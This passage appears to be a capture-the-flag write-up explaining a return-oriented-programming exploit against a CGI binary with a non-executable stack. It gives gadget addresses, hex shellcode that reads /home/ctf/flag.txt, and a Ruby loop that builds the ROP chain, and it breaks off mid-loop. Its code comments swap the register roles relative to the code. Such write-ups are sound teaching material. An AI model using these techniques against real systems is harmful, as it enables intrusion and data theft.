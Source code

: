 The stack is no longer executable, which means we can't just run code from the stack anymore!

There are lots of different ways to work around this, but many of them are broken by the fact that it's a CGI application: when it's running as a CGI script, you don't have a "real" `stdin`, which means some tricks I like, like rewinding `stdin` with `fseek`, apparently didn't work. I didn't figure out why, I just looked for another solution.

What I ended up doing was using return-oriented programming (ROP) to:

* Find some unused-but-writable memory
* Write shellcode to that memory, 8 bytes at a time
* Use `mprotect` to make the memory executable
* Run the shellcode therein

Finding writable memory was pretty easy - I opened the binary in IDA, found the `.data` section (which is typically readable and writable), and found a big block of 0 bytes. There isn't really a wrong answer, but the address 0x4A6000 seemed perfectly reasonable.

## Write the shellcode to memory

To write shellcode to memory, I needed some sorta ROP gadget. There are tools for this sorta thing, but I'm too lazy to use the easy way, so I just searched for `ret` and pressed `next` until I found one I liked.

First, I used this block of code to set `rax` and `rdx` to arbitrary values (also `rbx`, but that didn't matter):

```
.text:00000000004696D6                 pop     rax
.text:00000000004696D7                 pop     rdx
.text:00000000004696D8                 pop     rbx
.text:00000000004696D9                 retn
```

Then this to write the value from `rax` to the memory pointed to by `rdx`:

```
.text:0000000000416E10                 mov     [rdx], rax
.text:0000000000416E13                 retn
```

Thank you, `do_dlopen()` and `_IO_remove_marker()`, for having great suffixes!

From those two blocks, I created this loop to break the shellcode into 8 bytes and write them to the writable memory at an offset (note that I padded the shellcode to make suer we didn't chop off the end when chunking it into 8 byte blocks):

```ruby

SHELLCODE = ["b802000000e8130000002f686f6d652f6374662f666c61672e747874005fbe00000000ba000000000f055750b8000000005f5eba240000000f05b801000000bf01000000ba240000000f05b83c000000bf000000000f05cccccccccccccccc"].pack('H*')

# Break our shellcode into 8-byte chunks
offset = 0
stack = ""
SHELLCODE.scan(/.{8}/) do |code|
  # For each chunk, do:
  # rax = <offset we want to write code to>
  # rdx = <current 8 bytes of shellcode>
  # rbx = indifferent value - it's just along for the ride
  stack += [
    POP_RAX_POP_RDX_POP_RBX_RET,
    code.unpack('q').pop,
    WRITEABLE_MEMORY + offset,
    0x5a5a5a5a5a5a5a5a,
    MOV_RAX_PTR_EDX_RET,
  ].pack('q*')
  offset += 8
```